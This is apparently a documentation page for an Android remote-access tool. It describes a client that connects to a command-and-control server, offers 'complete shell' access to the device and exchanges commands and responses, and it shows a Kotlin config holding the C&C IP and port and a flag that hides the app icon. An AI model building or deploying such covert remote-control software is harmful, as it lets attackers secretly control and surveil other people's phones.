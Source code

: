 ### **Error Handling**

#### **Error Response Format**
```
ERROR: Error description
END123\n
```

#### **Timeout Response**
```
TIMEOUT: No response received (command may still be running)
END123\n
```

### **Connection Management**

#### **Welcome Message**
Upon connection, the Android client sends:
```
Hello there, welcome to complete shell of [DEVICE_MODEL] (Android [VERSION])
END123\n
```

#### **Connection Lifecycle**
1. **Client connects** to server
2. **Welcome message** sent by client
3. **Command/response cycle** begins
4. **Exit command** or connection loss terminates session

## 📱 Android Client API

### **Configuration Management**

#### **Config.kt Structure**
```kotlin
object Config {
    /** Server IP address for C&C connection */
    const val IP = "192.168.1.100"
    
    /** Server port for C&C connection */
    const val PORT = "8000"
    
    /** App icon visibility (true = hidden, false = visible) */
    const val ICON = true
}
```

### **Core Components**

#### **BackgroundTcpManager**
Main networking component handling server communication.
